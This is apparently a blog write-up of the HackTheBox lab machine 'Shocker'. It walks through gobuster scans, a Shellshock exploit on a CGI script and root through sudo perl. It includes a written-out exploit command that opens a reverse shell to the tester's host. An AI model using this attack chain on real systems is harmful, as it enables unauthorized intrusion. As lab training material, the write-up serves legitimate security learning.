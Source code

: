 ```yaml
---
title: Shocker Hackthebox Writeup
date: 2020-12-25 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,cgi-bin,shellshock,gobuster,apache shellshock]     # TAG names should always be lowercase
image: /assets/img/shocker-hackthebox/shocker-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Lame:~$


Column | Details
------------ | -------------
Name | Shocker
IP | 10.10.10.56
Points | 20
Os | Linux
Difficult | Easy
Creator | [mrb3n](https://www.hackthebox.eu/profile/2984)
Out on |  September 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Using `gobuster` on port 80, for `directory search`, we got `/cgi-bin/` as one of the *Forbidden* directories.
* Using `gobuster` on `/cgi-bin/`, we got `user.sh`
* After searching on internet, we got `shellshock` exploit, which gave us `User Shell`.
* Used `pearl` for escalating privileges to become `Root`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/shocker-hackthebox/nmap-port-80-1.png)

___
![](/assets/img/shocker-hackthebox/nmap-port-2222-1.png)

Basically `2 Ports` are open i.e. `80,2222`, Let's access `port 80` it first.

___
![](/assets/img/shocker-hackthebox/port-80-2.png)

Using `gobuster` for directory search, which gave us with `/cgi-bin/` as a directory but it's *Forbidden*.

**Command**: *gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/ -t 100*

___
![](/assets/img/shocker-hackthebox/gobuster-command-3.png)

Using `gobuster` on **http://10.10.10.56/cgi-bin/** to search for further files.

**Command**: *gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x html,php,sh*

where **-x** : *For extensions like html,php,sh etc.*

___
![](/assets/img/shocker-hackthebox/cgi-bin-gobuster-7.png)

and we got `/user.sh` as a file , accessing **http://10.10.10.56/cgi-bin/user.sh**

___
![](/assets/img/shocker-hackthebox/user-sh-page-8.png)

After that I googled about `Apache 2.4.18 cgi bin`, which showed me something related to **Shellshock Remote code injection**.

___
![](/assets/img/shocker-hackthebox/google-cgi-bin-5.png)

I check `searchsploit` for that and found this:

___
![](/assets/img/shocker-hackthebox/searchsploit-result-6.png)

Now making some changes in the python exploit by adding `/cgi-bin/user.sh` as one the directories/pages.

___
![](/assets/img/shocker-hackthebox/changing-exploit-9.png)

Running the exploit gave us the `User Shell`.

**Exploit Command**: *python exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.X.X lport 4444*

___
![](/assets/img/shocker-hackthebox/got-shell-10.png) 

For `Privilege Escalation`, I used the command `sudo -l` to check what permissions do we have.

___
![](/assets/img/shocker-hackthebox/sudo-l-privesc-12.png)

We can run `pearl` as administrator. Let's refer to [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo) and search for peal.

___
![](/assets/img/shocker-hackthebox/sudo-perl-13.png)

Running the above mentioned command, we got `Root`.

___
![](/assets/img/shocker-hackthebox/got-root-14.png)